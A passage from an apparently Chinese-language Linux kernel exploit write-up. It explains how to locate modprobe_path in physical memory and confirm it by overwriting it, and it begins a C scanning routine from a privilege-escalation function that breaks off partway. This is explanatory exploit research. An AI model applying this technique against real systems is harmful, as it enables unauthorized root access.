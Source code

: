 ##### （2）查找modprobe_path

**方法**：搜索`CONFIG_MODPROBE_PATH`（`"/sbin/modprobe"`）并且后面填充`'\x00'`最多到`KMOD_PATH_LEN`（256）个字节。检测该地址是否正确，可通过覆写该地址并检查`/proc/sys/kernel/modprobe`是否变化。

如果开启了静态usermode helper保护机制，可转而搜索`CONFIG_STATIC_USERMODEHELPER_PATH` （`"/sbin/usermode-helper"`），只不过无法验证搜到的地址是否正确。

```c
// privesc_flh_bypass_no_time() —— 搜索modprobe_path的物理地址
static void privesc_flh_bypass_no_time(int shell_stdin_fd, int shell_stdout_fd)
{
    // ...

	// range = (k * j) * CONFIG_PHYSICAL_ALIGN
	// scan 512 pages (1 PTE worth) for kernel base each iteration
	for (int k=0; k < (CONFIG_PHYS_MEM / (CONFIG_PHYSICAL_ALIGN * 512)); k++)
	{
